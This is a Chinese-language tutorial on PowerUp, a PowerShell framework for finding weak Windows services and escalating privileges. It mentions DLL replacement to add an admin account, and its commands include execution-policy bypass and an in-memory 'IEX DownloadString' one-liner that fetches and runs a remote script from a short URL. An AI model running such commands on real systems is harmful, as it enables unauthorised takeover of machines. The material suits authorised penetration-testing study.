 # Powershell 提权框架-Powerup

0x00 简介
=====

通常，在Windows下面我们可以通过内核漏洞来提升权限，但是，我们常常会碰到所处服务器通过内核漏洞提权是行不通的，这个时候，我们就需要通过脆弱的Windows服务提权，比如我们替换掉服务所依赖的DLL文件，当服务重启时，加载我们替换的DLL文件从而完成比如添加管理员账号的操作。或者通过常见的Mssql，Mysql等服务，通过其继承的系统权限来完成提权等等，而今天我将介绍一个非常实用的Powershell框架-Powerup，此框架可以在内核提权行不通的时候，帮助我们寻找服务器脆弱点进而通过脆弱点实现提权的目的。

0x01 使用
=====

要使用Powerup，首先需要下载此脚本:[Powerup](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)，之后加载此脚本：

```
E:> powershell.exe -nop -exec bypass
PS E:\> Import-Module .\PowerUp.psm1

```

加载完成以后，便可以使用Powerup中的所有模块了。

通过如下命令可以查看所有模块：

```
PS E:\> Get-Command -Module powerup

```

![Alt text](http://drops.javaweb.org/uploads/images/a0905c0aa9ee78bc49c0c2c8283b871c0c3f01a6.jpg)

输入可以通过tab键来自动补全，如果要查看各个模块的详细说明，可以使用"`Get-help [cmdlet] -full`"来查看，比如"`Get-Help Find-DLLHijack -full`"， 如果要将输出的结果导出到一个文件可以使用`Out-File`，如下：

```
PS E:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt

```

> 上述命令使用了Invoke-AllChecks，脚本将会进行所有的检查

在cmd环境下，可以使用下列方式来运行该脚本：

```
E:\> powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"

```

如果你想在内存加载此脚本，可以用下列方式：

```
E:\> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://dwz.cn/2vkbfP'); Invoke-AllChecks"

```

除此之外，Metasploit上同样包含执行powershell脚本的模块[exec_powershell.rb](https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/post/windows/manage/powershell/exec_powershell.rb)，通过此模块，可以通过msf会话来执行powershell。
